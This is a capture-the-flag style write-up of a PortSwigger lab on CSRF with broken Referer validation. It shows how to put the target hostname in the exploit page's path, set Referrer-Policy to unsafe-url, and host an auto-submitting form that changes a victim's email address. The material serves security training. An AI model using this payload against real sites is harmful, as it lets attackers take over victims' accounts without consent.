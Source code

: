 # [Lab: CSRF with broken Referer validation](https://portswigger.net/web-security/csrf/lab-referer-validation-broken)

## Lab

This lab's email change functionality is vulnerable to CSRF. It attempts to detect and block cross domain requests, but the detection mechanism can be bypassed.

To solve the lab, use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address.

You can log in to your own account using the following credentials: `wiener:peter`

## Analysis

server check if Referer header containing `0a38002c04ca4f89c0261cd6001f00d5.web-security-academy.net` or not to prevent csrf

## Solutions

exploit server:

file:

```text
/id.web-security-academy.net/
```

header:

```http
HTTP/1.1 200 OK
Content-Type: text/html; charset=utf-8
Referrer-Policy: unsafe-url
```

- if header doesn't contain `Referrer-Policy: unsafe-url`, the referer header doesn't include `/id.web-security-academy.net/`

Body:

```html
<html>
    <body>
        <form action="https://id.web-security-academy.net/my-account/change-email" method="POST">
        <input type="hidden" name="email" value="pwned@evil-user.net">
</form>
        <script>
            document.forms[0].submit();
        </script>
    </body>
</html>
```
